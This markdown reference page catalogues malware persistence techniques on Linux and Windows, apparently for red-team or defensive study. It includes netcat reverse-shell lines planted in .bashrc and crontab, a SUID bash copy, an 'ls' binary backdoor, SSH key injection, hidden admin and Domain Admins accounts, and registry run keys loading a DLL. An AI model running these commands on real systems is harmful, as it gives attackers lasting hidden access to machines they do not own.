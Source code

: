 ```yaml
---
title: Persistence techniques
description: How malwares persist in the victim host.
---
```


# Malware persistence techniques

## Linux

> [PDF - Linux Red Team Persistence Techniques](https://papers.vx-underground.org/papers/Linux/Persistence/Linux%20Red%20Team%20Persistence%20Techniques.pdf)
>
> [PDF - My Methods To Achieve Persistence In Linux Systems](https://papers.vx-underground.org/papers/Linux/Persistence/My%20Methods%20to%20Achieve%20Persistence%20in%20Linux%20Systems.pdf)
>
> [PDF - Understanding Linux Malware](https://reyammer.io/publications/2018_oakland_linuxmalware.pdf)

### SSH Key

```
echo <public_key> >> /root/.ssh/authorized_keys
echo <public_key> >> /home/<user>/.ssh/authorized_keys
```

### Add new account

```
useradd -m -s /bin/bash ftp
usermod -aG sudo ftp
passwd ftp
```

### Shell configuration backdoor

- `.bashrc` : Executed every time a user starts up a fresh terminal session in interactive mode.
- `.bash_profile` : Executed every time a user logs into a system. 

Example :

```
echo 'nc -e /bin/bash <IP> <PORT> 2>/dev/null &' >> ~/.bashrc
```

### Exposed services backdoor

- webshell

### Cronjobs

```
$ crontab -e
* * * * * nc <IP> <PORT> -e /bin/sh
```

```
/etc/cron.hourly/
/etc/crontab
/etc/cron.daily/
```

### Local privesc

```
cp /bin/bash /bin/sys
chmod u+s /bin/sys
/bin/sys -p
```

### System services / boot scripts

**systemd**

```
[Service]
Type=simple
ExecStartPre=<PAYLOAD>
...
```

**rc script**

```
/etc/rc.d/rc.local
/etc/rc.conf
/etc/init.d/
/etc/rcX.d/
/etc/rc.local
```

### X desktop autostart

- `~/.config/autostart`

### File replacement / infection

`ls` backdoor :

```
$ mv /bin/ls /bin/ls2
$ cat ls
#!/bin/bash

PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/sbin

<BACKDOOR>
/bin/ls2 "$@"
$ chmod a+x ./ls
$ mv ./ls /bin/ls
```

`md5sum`, `sha256sum`, `*sum` backdoor that returns good hashes for backdoored binaries.

```
$ md5sum /bin/ls
b9dcdfcaea8082f5f5879086fdf7f2e2  /bin/ls
$ sha256sum /bin/ls
f48db5b77c6fddb35548fb86c6e279e5d18c55d2d4ff9adae66a2d582187e7c7  /bin/ls
```

## Windows

> [MITRE ATT&CK - Persistence](https://attack.mitre.org/tactics/TA0003/)

### Scheduled Task

```
at 12:00 cmd /c <PAYLOAD>
```

### Startup folder

Placing a program within a startup folder will also cause that program to execute when a user logs in.

- Current user : `C:\Users\[Username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
- All users : `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

### Registry keys

Adding an entry to the "run keys" in the Registry will cause the program referenced to be executed when a user logs in.

Registry run key entries can reference programs directly or list them as a dependency.

For example, it is possible to load a DLL at logon using a "Depend" key with RunOnceEx: `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "C:\temp\evil[.]dll"`

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce

KEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceEx
```

The following Registry keys can be used to set startup folder items for persistence:

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```

The following Registry keys can control automatic startup of services during boot:

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices
```

Programs listed in the load value of the registry key `HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows` run when any user logs on.

### Shortcut Modification

Create a malicious shortcut that look like a legitimate program.

### Screensaver

- https://pentestlab.blog/2019/10/09/persistence-screensaver/

### PowerShell Profile

A profile is a Windows PowerShell ISE script that runs automatically when you start a new session.

Six different profiles :

- Current User, Current Host – console : `$Home\[My ]Documents\WindowsPowerShell\Profile.ps1`
- Current User, All Hosts : `$Home\[My ]Documents\Profile.ps1`
- All Users, Current Host – console : `$PsHome\Microsoft.PowerShell_profile.ps1`
- All Users, All Hosts : `$PsHome\Profile.ps1`
- Current user, Current Host – ISE : `$Home\[My ]Documents\WindowsPowerShell\Microsoft.P owerShellISE_profile.ps1`
- All users, Current Host – ISE : `$PsHome\Microsoft.PowerShellISE_profile.ps1`

### DLL Hijacking

### Service Hijacking

### Create account

Local account :

```cmd
net user /add <account_name> <account_password>
net user /delete <account_name>
```

Domain account :

```cmd
net user /add <account_name> <account_password> /domain
net group "Domain Admins" <account_name> /add /domain
```

### Software compoent

- Webshell
- SQL stored procedures
- ...
